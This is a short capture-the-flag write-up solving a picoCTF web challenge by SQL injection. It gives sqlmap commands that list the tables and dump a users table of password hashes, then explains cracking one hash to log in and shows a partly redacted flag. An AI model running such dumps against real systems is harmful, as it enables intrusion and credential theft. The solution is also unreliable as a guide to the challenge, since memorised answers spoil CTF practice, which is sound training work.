


# Sql Map 1 — Pico CTF 2026

> **Room / Challenge:** Sql Map 1 (Web)

---

## Metadata

- **CTF:** Pico CTF 2026
- **Challenge:** Sql Map 1 (web)
- **Target / URL:** `https://play.picoctf.org/events/79/challenges/729?category=1&page=1`

---

## Goal

Leveraging SQL Injection vulnerability to get the flag.

## My Solution

There is a search box in the website that has SQL Injection vulnerability. I will use the sqlmap tool to exploit the app, even the title of the challenge said sqlmap, so I will use it.

```bash
sqlmap -u "http://<HOST>:<PORT>/vuln.php?q=test" \
  --cookie="PHPSESSID=<YOUR_SESSION_COOKIE>" \
  -p q \
  --batch \
  --tables
```

Got 3 tables `flags`, `sqlite_sequence` and `users`

```bash
sqlmap -u "http://<HOST>:<PORT>/vuln.php?q=test" \
  --cookie="PHPSESSID=<YOUR_SESSION_COOKIE>" \
  -p q \
  -T users \
  --dump \
  --batch
```



```
ctf-player : 7a67ab5872843b22b5e14511867c4e43
admin : 5a9a79d9fa477ed163b89088681672c9
```

Crack the `ctf-player` password hash with CrackStation and login with it to get the flag.

Flag: `picoCTF{F0uNd_s3cr3T_K3y_f0R_w3_<>}`
